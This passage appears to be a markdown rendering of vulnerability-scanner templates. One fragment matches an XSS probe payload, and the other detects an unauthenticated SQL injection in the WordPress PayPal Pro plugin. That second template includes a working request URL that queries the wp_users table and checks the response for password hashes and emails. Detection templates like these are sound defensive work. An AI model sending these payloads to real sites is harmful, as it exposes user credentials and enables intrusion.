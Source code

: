 **Type - word**
- words
    1. \<img src=x onerror=alert(123);>
    2. catch-breadcrumb
- part - body
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress PayPal Pro \<1.1.65 - SQL Injection
## Description
- WordPress PayPal Pro plugin before 1.1.65 is susceptible to SQL injection via the 'query' parameter which allows for any unauthenticated user to perform SQL queries with the results output to a web page in JSON format.
- severity - critical
- tags - wp-plugin,sqli,paypal,wpscan,cve,cve2020,wordpress
## Requests
- Method - GET
### URL
- {{BaseURL}}/?cffaction=get_data_from_database&query=SELECT%20*%20from%20wp_users
### Matchers

**Type - word**
- words
    1. text/html
- part - header

**Type - word**
- words
    1. "user_login"
    2. "user_email"
    3. "user_pass"
    4. "user_activation_key"
- condition - and
- part - body

**Type - status**
- status
    1. 200

---